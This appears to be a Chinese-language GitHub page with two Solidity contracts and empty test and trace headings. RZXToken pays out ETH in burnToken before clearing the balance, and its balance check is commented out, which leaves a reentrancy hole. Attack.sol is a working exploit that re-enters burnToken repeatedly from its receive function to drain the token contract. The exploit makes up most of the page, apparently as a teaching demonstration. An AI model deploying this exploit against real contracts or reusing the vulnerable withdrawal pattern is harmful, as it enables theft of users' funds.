


## 代码

```js
// contracts/RZXToken.sol 
// SPDX-License-Identifier: MIT
pragma solidity 0.8.9;
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import "@openzeppelin/contracts/token/ERC20/extensions/ERC20Burnable.sol";
import "@openzeppelin/contracts/access/Ownable.sol";

contract RZXToken is ERC20, ERC20Burnable, Ownable {
    constructor() ERC20("RZXToken", "RZX") {}

    mapping(address => uint256) public balanceOf1;

    function mint(address to, uint256 amount) public onlyOwner {
        _mint(to, amount);
    }

    function buyToken() public payable {
        require(msg.value > 0);
        balanceOf1[msg.sender] += msg.value;
    }

    function burnToken(uint256 amount) public {
        //require(balanceOf1[msg.sender]>=amount);
        //_burn(msg.sender,amount);
        (bool send, ) = payable(msg.sender).call{value: amount}("");
        require(send, "failed");
        balanceOf1[msg.sender] = 0;
    }

    function get_balance() public view returns (uint256) {
        return address(this).balance;
    }

    receive() external payable {}
}


// contracts/Attack.sol 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.9;

interface IToken {
    function buyToken() external payable;

    function burnToken(uint256 amount) external;
}

contract Attack {
    IToken public token;

    constructor(address _token) {
        token = IToken(_token);
    }

    receive() external payable {
        if (address(token).balance >= 1 ether) {
            token.burnToken(1 ether);
        }
    }

    function attack() public payable {
        require(msg.value >= 1 ether);
        token.buyToken{value: 1 ether}();
        token.burnToken(1 ether);
    }
}
```

## 单测



## hardhat tracer call trace

